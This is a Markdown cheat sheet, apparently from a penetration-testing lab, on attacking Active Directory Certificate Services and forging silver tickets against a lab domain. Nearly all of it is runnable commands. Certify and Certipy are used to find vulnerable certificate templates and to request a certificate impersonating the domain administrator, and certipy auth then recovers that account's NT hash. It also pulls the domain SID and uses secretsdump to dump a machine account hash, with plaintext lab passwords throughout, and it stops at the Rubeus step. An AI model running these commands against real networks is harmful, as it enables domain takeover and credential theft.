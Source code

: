 ## Attacking AD CS
### Initial Query
* windows
    * execute the runas
    ```
    runas /user:hiboxy.com\bgreen /netonly cmd.exe
    ```
    * list all the CA and templates (Administrator)
    ```
    \Tools\Certify.exe cas /domain:hiboxy.com
    ```
### Identifying Vulnerable Templates
* linux
    * use certify to identify vulnerable templates
    ```
    certipy find -u bgreen@hiboxy.com -password Password1 -dc-ip 10.130.10.4
    ```
    *
    ```
    cat *_Certipy.json
    cat *_Certipy.txt | grep -A 18 UserAuthenticationCertificate
    cat *_Certipy.txt | grep -A 40 UserAuthenticationCertificate
    ```
### Requesting a Certificate
* linux
    * 
    ```
    grep "CA Name" *_Certipy.txt
    ```
    *
    ```
    certipy req -username bgreen@hiboxy.com -password Password1 -ca hiboxy-CA01-CA -template UserAuthenticationCertificate -upn administrator@hiboxy.com -target ca01.hiboxy.com
    ```

### Recovering the NT Hash
* linux
    * get the hash
    ```
    certipy auth -pfx administrator.pfx
    ```

## Silver Ticket
### Getting the Information to Build a Ticket
* windows
    * get the domain SID
    ```
    lookupsid.py hiboxy.com/bgreen:Password1@10.130.10.4 520
    ```
    * get the NT hash
    ```
    secretsdump.py hiboxy.com/SVC_SQLService2:^^Cakemaker@10.130.10.4 -just-dc-user file01$
    ```
### Creating the Ticket with Rubeus
* windows
    * get the ticket
    ```